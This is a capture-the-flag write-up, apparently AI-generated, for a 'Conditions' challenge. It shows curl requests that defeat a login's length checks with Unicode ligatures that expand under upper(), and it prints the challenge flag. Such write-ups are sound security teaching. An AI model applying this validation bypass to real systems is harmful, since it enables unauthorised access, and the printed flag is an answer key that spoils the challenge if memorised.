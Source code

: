 Here’s your unique Markdown write-up based on your approach. Let me know if you need any refinements! 🚀  

---

# Conditions - CTF Write-up  

## 🏆 Challenge Overview  

**Category:** Misc (100 points)  

**Description:**  
We are presented with a seemingly **impossible-to-pass** login system that enforces conflicting conditions:  

1. If the username length is **40 or more**, it is "too long."  
2. If the **uppercase version** of the username is **50 or fewer**, it is "too short."  

The goal is to **bypass these conditions** and retrieve the flag.  

🔗 **Challenge Link:** [Conditions CTF](https://conditions.ctf.dscjssstuniv.in)  

---

## 🕵️‍♂️ Approach  

### 🔍 Step 1: Understanding the Conditions  

The first step was analyzing how the server checks username length. From testing different inputs via `curl`, I identified the key issue:  

```python
if len(username) >= 40:
    return "Username is too long!"
elif len(username.upper()) <= 50:
    return "Username is too short!"
else:
    return flag
```

To **pass the check**, we needed a username that:  

✔ **Has fewer than 40 characters initially**  
✔ **Expands beyond 50 characters after `.upper()` is applied**  

---

### 🔑 Step 2: Finding a Suitable Payload  

The trick was using a **Unicode character** that changes length when capitalized. I tested several inputs:  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=ßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßß'
```
💥 **Result:** "Username is too long!"  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii'
```
💥 **Result:** "Username is too long!"  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀'
```
💥 **Result:** "Username is too short!"  

After several trials, I found that using `ﬀ` (Ligature `ff`) **expands in uppercase**, allowing the condition to be bypassed.  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=ﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀ'
```

🎉 **Success! The flag was returned!**  

---

## 🏆 Final Flag  

```
dscctf{1mp0551bl3_c0nd1710n5_0r_p0551bl3_c0nd1710n5}
```

---

## 🔥 Key Takeaways  

- **Unicode quirks** can be leveraged to **bypass length-based restrictions**.  
- **Ligatures (e.g., `ﬀ`) behave differently when uppercased**, making them useful in certain exploits.  
- Always inspect **string transformations** (`upper()`, `lower()`, etc.) when analyzing input validation mechanisms.  

🔍 **Lesson:** Never assume length checks are secure—Unicode can be unpredictable! 🚀